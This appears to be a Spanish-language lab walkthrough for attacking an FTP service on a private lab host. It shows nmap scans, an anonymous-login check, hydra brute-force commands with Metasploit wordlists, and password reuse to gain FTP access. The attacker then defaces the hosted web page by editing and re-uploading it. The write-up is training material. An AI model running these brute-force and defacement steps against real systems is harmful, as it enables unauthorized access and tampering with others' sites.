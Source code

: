 Primero revisamos los servicios abiertos y la información que tengamos de ellos, para ello escanearemos los servicios con nmap
```
nmap -sV -sC -p21,80 10.2.22.126
```
![[Pasted image 20240424080959.png]]

Ahora comprobaremos si esta habilitado el usuario anonymous de ftp, con el siguiente comando veremos todos los scrips que tenemos de nmap para el protocolo ftp
```
ls -la /usr/share/nmap/scripts/ftp*
```

```
ls -la /usr/share/namp/scripts/ | grep ftp-
```
![[Pasted image 20240424082154.png]]

Como podemos ver en la sigueinte imagen intentamos acceder desde el usuario anonimo pero no obtenemos resultado
```
nmap -sV -p21 --script=ftp-anon 10.2.22.126
```
![[Pasted image 20240424081759.png]]

Ahora con la herramienta de hydra realizaremos un ataque de fuerza bruta
```
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P/usr/share/wordlists/metasploit/unix_passwords.txt 10.2.22.126 ftp
```
![[Pasted image 20240424082917.png]]

Como podemos ver nos ha encontrado un usuario, ahora probaremos con la contraseña que tenemos si hay mas usuarios con la misma contraseña
```
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p vagrant 10.2.22.126 ftp
```
![[Pasted image 20240424083040.png]]

Como podemos ver hemos obtenido dos usuarios con la misma password, ahora accederemos con los usuarios por ftp
```
ftp 10.2.22.126
```
![[Pasted image 20240424083144.png]]

Como podemos ver hemos obtenido acceso, ahora podremos hacer diversas cosas, como por ejemplo modificar el contenido de la web, para ello nos descargaremos el documento
![[Pasted image 20240424083348.png]]

Esta es la pagina de serie
![[Pasted image 20240424083504.png]]

Modificamos el contenido
![[Pasted image 20240424083710.png]]

Lo volvemos a subir con las modificaciones
![[Pasted image 20240424083819.png]]

Al refrescar podemos ver que hemos eliminado la pagina y el fondo a pasado de negro a blanco
![[Pasted image 20240424083850.png]]

